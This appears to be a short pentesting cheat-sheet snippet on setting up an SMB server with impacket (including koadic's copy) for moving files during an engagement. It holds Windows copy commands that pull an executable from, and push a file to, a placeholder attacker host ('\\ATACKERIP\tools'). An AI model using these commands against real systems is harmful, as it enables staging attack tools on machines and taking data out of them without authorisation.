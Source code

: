 ##### SMB Server 1
`impacket-smbserver -smb2support -user username -password password sharename $(pwd)`

##### SMB Server 2
`sudo python2 /usr/share/koadic/data/impacket/examples/smbserver.py tools .`
_after this on windows_
`copy \\ATACKERIP\tools\filename.exe .`
_or_
`copy filename.txt \\ATACKERIP\tools\filename.txt`